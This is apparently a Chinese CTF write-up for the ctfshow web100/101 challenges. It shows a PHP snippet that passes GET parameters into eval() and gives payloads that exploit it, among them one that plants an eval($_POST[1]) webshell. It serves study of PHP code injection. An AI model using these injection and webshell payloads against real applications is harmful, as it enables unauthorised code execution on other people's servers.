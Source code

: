 ###  参考文章：

https://www.cnblogs.com/xiaozi/p/7768580.html

##  17.反射类--ReflectionClass的使用

###  web100，101

```php
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }  
}
?>
```

思路：只需要满足v1是数字，v2不含有；v3含有；
payload

```
v1=1&v2=echo new ReflectionClass&v3=;
```

非预期解1

```
v1=1&v2=var_dump($ctfshow)/*&v3=*/;
为什么要用/**/，因为var_dump是php执行代码，需要把后面v3注释，免得报错
```

非预期解2

```
v1=1&v2=?><?php eval($_POST[1]);?>/*&v3=*/;
v2最前面的?>是用来闭合php代码
```

知识点
三种注释方式

```
1.//是单行注释，有java，c，php
2.#也可以注释，有python，php
3./**/多行注释，有php，java
```
